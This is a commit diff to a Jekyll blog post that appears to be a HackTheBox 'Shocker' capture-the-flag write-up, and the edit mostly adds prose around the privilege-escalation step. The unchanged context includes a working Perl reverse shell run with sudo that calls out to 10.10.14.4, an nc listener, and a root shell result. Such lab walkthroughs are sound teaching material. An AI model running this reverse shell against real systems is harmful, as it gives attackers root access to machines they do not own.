

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-19-shocker.md, in a window 1280 px wide and 900 px high, scrolled down 4288 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-19-shocker.md
+++ b/_posts/2020-07-19-shocker.md
@@ -206,19 +206,19 @@ User shelly may run the following commands on Shocker:
     (root) NOPASSWD: /usr/bin/perl
 ```
 
-
+Bingo ! As we can see the user shelly can run the perl binary with root privileges. So, all I have to do is to found a perl reverse shell and execute it with sudo. First let's open another nc listener :
 
 ```bash
 nc -lvp 12345
 ```
 
-[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
+Then execute the reverse shell with root privileges, the perl reverse shell comes from [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
 
 ```bash
 sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.4";$p=12345;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 ```
 
-
+And voila !
 
 ```bash
 nc -lvp 12345
@@ -230,7 +230,7 @@ whoami
 root
 ```
 
-There we have a shell as root ! Go find the flags !
+There we have a shell as root ! Go search for the flags now !
 ## Flags
 
 ------
````
